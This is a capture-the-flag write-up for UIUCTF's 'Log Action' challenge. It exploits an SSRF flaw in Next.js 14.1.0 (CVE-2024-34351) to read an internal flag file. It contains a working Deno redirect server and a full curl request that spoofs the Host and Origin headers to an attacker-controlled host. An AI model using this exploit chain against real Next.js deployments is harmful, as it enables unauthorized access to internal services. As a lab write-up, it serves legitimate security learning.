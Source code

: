 # Log Action

I keep trying to log in, but it's not working :'(

## Writeup

The version of **NextJS** is **14.1.0**.

This version is vulnerable to [CVE-2024-34351](https://github.com/azu/nextjs-CVE-2024-34351.git).

So we can create a **TypeScript** server that **redirect** to **http://backend/flag.txt**:

```ts
// Attacker server to test SSRF vulnerability in the target server
// https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps
Deno.serve((request: Request) => {
    console.log("Request received: " + JSON.stringify({
        url: request.url,
        method: request.method,
        headers: Array.from(request.headers.entries()),
    }));
    // Head - 'Content-Type', 'text/x-component');
    if (request.method === 'HEAD') {
        return new Response(null, {
            headers: {
                'Content-Type': 'text/x-component',
            },
        });
    }
    // Get - redirect to http://backend/flag.txt
    if (request.method === 'GET') {
        return new Response(null, {
            status: 302,
            headers: {
                Location: 'http://backend/flag.txt',
            },
        });
    }
});
```

We can upload this script to **https://dash.deno.com/login?redirect=/** and it will give us a link:

```
https://posh-duck-89.deno.dev/
```

So now we can intercept the **logout** request and change **Host** and **Origin** field with this link:

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: posh-duck-89.deno.dev' -H $'Content-Length: 279' -H $'Accept: text/x-component' -H $'Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22logout%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D' -H $'Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIlk0KUJ6uRCIvjZ1' -H $'Origin: http://posh-duck-89.deno.dev' -H $'Referer: http://log-action.challenge.uiuc.tf/logout' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'authjs.csrf-token=a916a8ffda4f457233cbcc7ec1c78c477e9562e12ef1eb8e59657c5e130bbb02%7C44c199d2d15e17c86b52815c2b287f014a6fa7bf0eef27ed32e13e81d8a72c9e; authjs.callback-url=http%3A%2F%2Flog-action.challenge.uiuc.tf%2Flogout' \
    --data-binary $'------WebKitFormBoundaryIlk0KUJ6uRCIvjZ1\x0d\x0aContent-Disposition: form-data; name=\"1_$ACTION_ID_c3a144622dd5b5046f1ccb6007fea3f3710057de\"\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundaryIlk0KUJ6uRCIvjZ1\x0d\x0aContent-Disposition: form-data; name=\"0\"\x0d\x0a\x0d\x0a[\"$K1\"]\x0d\x0a------WebKitFormBoundaryIlk0KUJ6uRCIvjZ1--\x0d\x0a' \
    $'http://log-action.challenge.uiuc.tf/logout'
```

With this response:

```
uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
```